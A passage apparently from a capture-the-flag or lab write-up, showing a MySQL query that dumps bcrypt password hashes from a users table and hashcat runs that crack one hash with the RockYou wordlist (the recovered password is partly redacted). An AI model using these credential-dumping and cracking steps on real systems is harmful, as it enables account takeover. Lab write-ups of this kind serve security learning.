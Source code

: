 ```

mysql>
```

By looking into the database, we can get the password hash of the user logan:
```
mysql> select name, password from sd4fg_users;
select name, password from sd4fg_users;
+------------+--------------------------------------------------------------+
| name       | password                                                     |
+------------+--------------------------------------------------------------+
| lewis      | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan paul | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+------------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```

I ran hashcat to check if this hash can be cracked:
```
$ echo "$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12" > john.txt
$hashcat -m 3200 john.txt /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt
```
No results.

I tried with the RockYou wordlist:
```
$hashcat -m 3200 john.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-7500U CPU @ 2.70GHz, 13706/13770 MB (4096 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:t[...SNIP...]o
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
```